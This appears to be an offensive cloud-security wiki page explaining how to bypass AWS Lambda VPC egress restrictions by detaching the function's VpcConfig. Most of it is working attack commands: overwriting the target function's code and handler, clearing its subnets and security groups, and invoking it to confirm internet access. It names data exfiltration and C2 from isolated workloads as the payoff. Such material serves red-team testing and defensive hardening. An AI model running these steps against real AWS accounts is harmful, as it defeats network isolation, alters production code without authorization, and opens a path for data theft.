 # AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

Force a Lambda function out of a restricted VPC by updating its configuration with an empty VpcConfig (SubnetIds=[], SecurityGroupIds=[]). The function will then run in the Lambda-managed networking plane, regaining outbound internet access and bypassing egress controls enforced by private VPC subnets without NAT.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionConfiguration on the target function (and lambda:InvokeFunction to validate), plus permissions to update code/handler if changing them.
- Assumptions: The function is currently configured with VpcConfig pointing to private subnets without NAT (so outbound internet is blocked).
- Region: us-east-1

### Steps

0) Prepare a minimal handler that proves outbound HTTP works

    cat > net.py <<'PY'
    import urllib.request, json
    
    def lambda_handler(event, context):
        try:
            ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
            return {"egress": True, "ip": ip}
        except Exception as e:
            return {"egress": False, "err": str(e)}
    PY
    zip net.zip net.py
    aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
    aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) Record current VPC config (to restore later if needed)

    aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
    cat /tmp/orig-vpc.json

2) Detach the VPC by setting empty lists

    aws lambda update-function-configuration \
      --function-name $TARGET_FN \
      --vpc-config SubnetIds=[],SecurityGroupIds=[] \
      --region $REGION
    until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke and verify outbound access

    aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
    cat /tmp/net-out.json

(Optional) Restore original VPC config

    if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
      SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
      aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
    fi

### Impact
- Regains unrestricted outbound internet from the function, enabling data exfiltration or C2 from workloads that were intentionally isolated in private subnets without NAT.

### Example output (after detaching VpcConfig)

    {"egress": true, "ip": "34.x.x.x"}

### Cleanup
- If you created any temporary code/handler changes, restore them.
- Optionally restore the original VpcConfig saved in /tmp/orig-vpc.json as shown above.

